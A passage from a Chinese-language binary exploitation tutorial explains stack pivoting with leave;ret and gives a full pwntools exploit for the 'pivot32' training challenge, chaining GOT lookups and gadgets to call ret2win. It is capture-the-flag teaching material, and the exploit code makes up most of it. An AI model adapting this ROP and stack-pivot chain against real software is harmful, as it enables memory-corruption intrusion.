leave 指令相当于：

```text
mov esp,ebp
pop ebp
```

ret 指令为相当于：

```text
pop eip
```

如果遇到一种情况，我们可以控制的栈溢出的字节数比较小，不能完成全部的工作，同时程序开启了 PIE 或者系统开启了 ASLR，但同时在程序的另一个地方有足够的空间可以写入 payload，并且可执行，那么我们就将栈转移到那个地方去。

完整的 exp 如下：

```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['konsole']
io = process('./pivot32')
elf = ELF('./pivot32')
libp = ELF('./libpivot32.so')

leave_ret = 0x0804889f

foothold_plt     = elf.plt['foothold_function'] # 0x080485f0
foothold_got_plt = elf.got['foothold_function'] # 0x0804a024

pop_eax      = 0x080488c0
pop_ebx      = 0x08048571
mov_eax_eax  = 0x080488c4
add_eax_ebx  = 0x080488c7
call_eax     = 0x080486a3

foothold_sym = libp.symbols['foothold_function']
ret2win_sym  = libp.symbols['ret2win']
offset = int(ret2win_sym - foothold_sym) # 0x1f7

leakaddr  = int(io.recv().split()[20], 16)

# calls foothold_function() to populate its GOT entry, then queries that value into EAX
#gdb.attach(io)
payload_1  = p32(foothold_plt)
payload_1 += p32(pop_eax)
payload_1 += p32(foothold_got_plt)
payload_1 += p32(mov_eax_eax)
payload_1 += p32(pop_ebx)
payload_1 += p32(offset)
payload_1 += p32(add_eax_ebx)
payload_1 += p32(call_eax)

io.sendline(payload_1)

# ebp = leakaddr-4, esp = leave_ret
payload_2  = "A"*40
payload_2 += p32(leakaddr-4) + p32(leave_ret)

io.sendline(payload_2)
print io.recvall()
```
